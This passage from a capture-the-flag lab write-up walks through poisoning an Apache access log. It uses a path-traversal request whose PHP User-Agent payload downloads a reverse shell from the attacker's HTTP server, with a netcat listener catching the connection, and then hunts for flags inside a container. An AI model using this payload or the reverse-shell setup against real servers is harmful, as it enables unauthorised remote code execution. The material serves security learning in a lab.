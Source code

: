 Hopefully you are using some kind of editor (like VSCode) to stage these things, as this can get really messy and confusing to try to construct this live on the command-line. Then, you accidentally hit up-arrow and you lose it all!

Alas, I didn't have much luck with this approach. The answer is probably to escape more of the special characters, but I decided to just move on to another technique.

#### Option 2: Directly downloading a reverse shell, as our `User-Agent`

The kill chain on this one is a little more straight-forward. Basically:

1. Run `nc -lvnp 9000` to listen for the reverse shell. Set up your reverse shell file to connect on port 9000.
2. Run `python3 -m http.server 8000` from a folder where you have your reverse shell file.
3. On our web request, modify the `User-Agent` to be something like:

    ```php
    GET /?view=./dog/../../../../var/log/apache2/access.log&ext HTTP/1.1
    Host: 10.10.67.160
    User-Agent: "<?php file_put_contents('revshell.php', file_get_contents('http://10.6.90.119:8000/revshell.php'));?>"
    ```

4. Navigate to `/revshell.php` on the web server and you should get a connection over in netcat.

> **TIP:** This [pentestmonkey Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) is great. Just set your IP address and listening port, and you can re-use this over and over.
{: .prompt-tip }

### Unprivileged Access

Using Option 2, above, I was able to get a reverse shell as `www-data`. There are several things "weird" about this connection:

1. I can't "upgrade" the shell with Python `pty` or `script`, neither Python nor script are installed. See: [Cheatsheet](/cheatsheet/#concept-upgrading-a-fragile-shell) for more details.
2. Running `hostname` shows the host name as `b2deba11a79a` as opposed to a word-based server name (e.g. `server1`, `dogcat`, etc.
3. It doesn't look like SSH is installed, but `nmap` DID show it as installed?!

What is going on here? Spoiler: **We are running in a container.** More on this in a minute, let's see if we can capture some flags. We run something like this to find any files with the word "flag" in it, and `2>/devnull` means send an errors (`STDERR`) to `/dev/null` (don't show them on the screen):

```bash
find / -name *flag* 2>/dev/null
```

#### Flag 1 of 4

Is located here: `cat /var/www/html/flag.php`

#### Flag 2 of 4

Is located here: `cat /var/www/flag2_QMW7JvaY2LvK.txt`
